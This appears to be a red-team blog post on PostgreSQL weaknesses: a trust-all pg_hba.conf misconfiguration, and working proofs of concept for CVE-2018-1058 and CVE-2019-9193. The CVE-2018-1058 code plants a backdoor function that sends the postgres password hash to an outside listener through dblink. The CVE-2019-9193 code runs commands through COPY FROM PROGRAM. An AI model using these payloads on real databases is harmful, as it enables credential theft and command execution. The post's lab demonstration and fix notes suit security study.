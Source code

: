 ```yaml
---
title: PostgreSQL - From no authorization to high privilege command execution
description: Cause of PostgreSQL Improper Configuration Vulnerability: As a matter of fact, it is mainly caused by improper administrator configuration.
categories:
 - RedTeam Skill
tags:
 - PostgreSQL
 - Command execution
---
```



## *No. 1 Introduction to PostgreSQL*

PostgreSQL (also known as postgres) is a free object, it's a relational database server (database management system) distributed under a flexible BSD license. It provides an alternative to other open source database systems, such as MySQL and Firebird, and proprietary systems, such as **Oracle, Sybase, IBM’s DB2**, and **Microsoft SQL Server**.

PostgreSQL is as popular as MySQL, and the database of msf is PostgreSQL. However, if the administrator does not configure PostgreSQL correctly, **it will cause any user to access PostgreSQL database without a password.**

## *No.2 PostgreSQL Unauthorized Vulnerability*

#### Vulnerability Cause

Cause of PostgreSQL Improper Configuration Vulnerability: As a matter of fact, it is mainly caused by improper administrator configuration. PostgreSQL configuration file is `/var/lib/pgsql/9. 2/data/pg_hba. conf`. If the administrator does not properly configure the trusted host (as shown in the following figure), any user can access PostgreSQL database without password.

Here is a brief introduction to the following `pg_hba. conf` configuration file. Excluding the comments, the main effective configuration content is the red circle in the above figure. Explain the meaning of this line:

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/ko4Bn25tjQdahWz.png)

```plsql
host    all     all     0.0.0.0/0       trust
```

Host indicates the matching type, the first `all` indicates any database, the second `all` indicates the access of any database user, `0.0. 0.0/0` indicates that any IP address accesses this database service, and the last `trust` indicates password-free login for hosts that meet the conditions.

**The above configuration will result in allowing any source IP host, using any database account, and accessing any database without password, which will directly lead to the disclosure of all data in the database.**

## *No.3 PostgreSQL Authorization Vulnerability*

#### （CVE-2018-1058）

Build a vulnerability platform through VulHub and log in to the data platform to obtain the current session user.

Postgres provides the ability to customize functions! We create the following function:

```plsql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=192.168.8.10 port=7777 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/ph7YvVmWn4AEcsd.png)

Then listen to `1**.***.*.**`port 7777 on , waiting for the superuser to trigger the “backdoor” we left behind.

Execute the `pg_dump` command as root:

```plsql
docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```

Export the contents of the VulHub database.

While executing the above command, the “backdoor” has been triggered, and the password encrypted by the administrator MD5 has been received on the `1**.***.*.**` machine:

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/7HgsyiMfbtWDwGF.png)

#### Vulnerability fixes

The following version fixes this breakthrough:

```plsql
PostgreSQL PostgreSQL 9.6.8
PostgreSQL PostgreSQL 9.5.12
PostgreSQL PostgreSQL 9.4.17
PostgreSQL PostgreSQL 9.3.22
```

## *No.4 PostgreSQL High Privilege Command Execution Vulnerability*

#### (CVE-2019-9193）

#### Affected Version

PostgreSQL 9.3 to 11.2

In versions 9.3 through 11, there is a “feature” that can be used by administrators or users with “COPY TO/FROM PROGRAM” privileges to execute arbitrary commands.

First connect to postgres and execute POC:

```plsql
DROP TABLE IF EXISTS cmd_exec;

CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'id';

SELECT * FROM cmd_exec;
```

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/GiU5qRpJwtW9ATC.png)

## *No.5 Solution Suggestions*

The roles of `pg_read_server_files, pg_write_server_files, and pg_execute_server_program` involve reading and writing database server files, and have relatively large permissions. Careful consideration should be given when assigning the permissions of this role to database users.

## *No.6 Copyright Notice*

Any direct or indirect consequences and losses caused by the dissemination and utilization of the information provided in this article shall be borne by the user himself, and Bounty Team and the author of this article shall not bear any responsibility for this. Bounty Team has the right to modify and interpret this article. If you want to reprint or disseminate this article, you must ensure the integrity of this article, including all contents such as copyright notice. Without permission from Bounty Team, the content of this article shall not be arbitrarily modified, increased or decreased, and it shall not be used for commercial purposes in any way.

## *No.7 Author*

> york@Bounty Team - DBAPPSecurity
